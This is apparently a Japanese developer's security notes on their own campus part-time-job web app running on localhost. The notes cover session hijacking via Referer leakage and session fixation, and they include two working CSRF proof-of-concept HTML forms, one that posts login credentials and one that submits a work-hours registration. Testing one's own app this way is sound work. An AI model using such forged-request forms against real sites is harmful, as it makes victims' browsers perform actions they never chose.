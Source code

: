 ## セッションハイジャック

### セッションハイジャックの分類
- セッションIDの推測
- セッションIDの盗み出し<br/>
→ XSS、HTTP・ヘッダインジェクション、Refererの悪用
- セッションIDの強制<br/>
→ セッションの固定化攻撃

---

### Refererの悪用
#### 条件：
- セッションIDをURL埋め込みにしている
- 罠サイトへのリンクがある

#### 被害者視点：
1. 学内バイトシステムにログインする
2. 学内バイトシステム内で罠サイトのリンクを踏む
3. Referer（参照元サイトのURL）から、セッションIDを盗まれる

#### TomcatのセッションIDの設定
| セッションIDの保存場所          | application.propertiesのserver.servlet.session.tracking-modes |
|-----------------------|--------------------------------------------------------------|
| デフォルト（URL埋め込み+Cookie） |                                                              |
| URL埋め込み               | url                                                          |
| Cookie                | cookie                                                       |
| SSL                   | ssl                                                          |

- URL埋め込みだとlocalhost:8080/Sign;jsessionid=qwert...みたいなかんじ
- デフォルトの設定だと、Cookieが有効なブラウザの場合はCookie、
Cookieが無効なブラウザの場合はURL埋め込み
- CookieのみにするとCookieが無効なブラウザではログインもできない
- 今回は外部サイトへのリンクがないため、どのみち危険性はない...と思う
- たぶん、Solomonはデフォルト（外部サイトへのリンクはないため）、
科技大のポータルサイトはCookieのみ（外部サイトへのリンクを貼るため）



---

### セッションIDの固定化攻撃（対策済み）
#### 条件：
- サーバーがURL埋め込みのセッションIDを受け付ける

#### 攻撃者視点：
1. localhost:8080/Sign;jsessionid=ABCというリンクを貼る
2. このURLからログインしたユーザーになりすます

PHPやASP.NETだと未知のセッションIDを受け付ける。これをセッションアダプションというらしい。<br/>
Tomcatにはセッションアダプションがないため、勝手に作ったセッションIDは無視される。
よって危険性はなし。

---
---

### クロスサイト・リクエスト・フォージェリ（CSRF）
（別名：シーサーフ、XCRF、リクエスト強要、セッションライティング）<br/>
クエリ文字列とFormDataが同じになるようなHTTPリクエストを送るとできる。たぶん

#### 条件：
- CSRF対策をしていない

#### 被害者視点：
1. ログインする
2. ブラウザの別のタブで罠リンクを踏む
3. HTTPリクエストが送られる

#### ログイン前
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="UTF-8">
</head>
<body>
<form action="http://localhost:8080/Sign?-1.-userInfo" method="POST">
	<input type="hidden" name="userName" value="username"/>
	<input type="hidden" name="userPass" value="password"/>
	<input type="submit"/>
</form>
</body>
</html>
```

```http request
Query String Parameters:
 -1.-userInfo

Form Data:
 userName: username
 userPass: password
```

#### ログイン後（学内バイト登録）
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="UTF-8">
</head>
<body>
<form action="http://localhost:8080/Request?-1.0-ptjdetail-sendButton&date=2022-07-04" method="POST">
	<input type="hidden" name="date" value="2022-07-04"/>
	<input type="hidden" name="workingType" value="0"/>
	<input type="hidden" name="workingSubject" value="0"/>
	<input type="hidden" name="workingStartHours_pre" value="0"/>
	<input type="hidden" name="workingStartMinutes_pre" value="0"/>
	<input type="hidden" name="workingEndHours_pre" value="0"/>
	<input type="hidden" name="workingEndMinutes_pre" value="1"/>
	<input type="hidden" name="breakTime" value="0"/>
	<input type="hidden" name="sumworkinghours" value="0.25"/>
	<input type="hidden" name="workingcontent" value="0"/>
	<input type="submit" name="sendButton" value="1" />
</form>
</body>
</html>
```

```http request
Query String Parameters:
 -1.0-ptjdetail-sendButton&date=2022-07-0

Form Data:
 date: 2022-07-04
 workingType: 0
 workingSubject: 0
 workingStartHours_pre: 0
 workingStartMinutes_pre: 0
 workingEndHours_pre: 0
 workingEndMinutes_pre: 1
 breakTime: 0
 sumworkinghours: 0.25
 workingcontent: 0
 sendButton: 1
```

- 機能に沿った形でリクエストを送ることしかできないから、嫌がらせ程度
（通販サイトなら勝手に商品購入とかできる）

#### 対策
調査中...
Sec-Fetch-Site: cross-site

---

### サイドチャネル攻撃
調査中...

参考資料：体系的に学ぶ安全なwebアプリケーションの作り方
（ほとんどphpだからあんまり参考にはならない、あと長くてしんどい）